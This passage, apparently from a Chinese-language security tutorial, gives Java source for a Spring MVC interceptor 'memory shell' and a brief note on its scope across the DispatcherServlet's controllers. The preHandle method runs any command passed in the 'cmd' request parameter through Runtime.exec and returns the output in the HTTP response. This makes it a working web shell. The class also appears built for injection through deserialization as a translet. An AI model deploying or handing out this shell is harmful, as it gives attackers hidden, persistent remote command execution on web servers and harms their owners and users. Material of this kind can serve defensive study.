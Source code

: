 ```java
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }

    @Override
    public boolean preHandle(HttpServletRequest request, HttpServletResponse servletResponse, Object handler) throws Exception {
        String cmd = request.getParameter("cmd");
        if (cmd != null) {//回显内容
            Process process = Runtime.getRuntime().exec(cmd);
            java.io.BufferedReader bufferedReader = new java.io.BufferedReader(
                    new java.io.InputStreamReader(process.getInputStream()));
            StringBuilder stringBuilder = new StringBuilder();
            String line;
            while ((line = bufferedReader.readLine()) != null) {
                stringBuilder.append(line + '\n');
            }
            servletResponse.getOutputStream().write(stringBuilder.toString().getBytes());
            servletResponse.getOutputStream().flush();
            servletResponse.getOutputStream().close();
        }

        return HandlerInterceptor.super.preHandle(request, servletResponse, handler);
    }

    @Override
    public void postHandle(HttpServletRequest request, HttpServletResponse response, Object handler, ModelAndView modelAndView) throws Exception {
        HandlerInterceptor.super.postHandle(request, response, handler, modelAndView);
    }

    @Override
    public void afterCompletion(HttpServletRequest request, HttpServletResponse response, Object handler, Exception ex) throws Exception {
        HandlerInterceptor.super.afterCompletion(request, response, handler, ex);
    }
}

```



那这个马的作用域有多大？

Interceptor的作用域就是一个DispatcherServlet，我们这里DispatcherServlet内容从springmvc.xml中读取，也就是springmemshell下的两个Controller，所以这两个Controller都能触发我们的Interceptor内存马
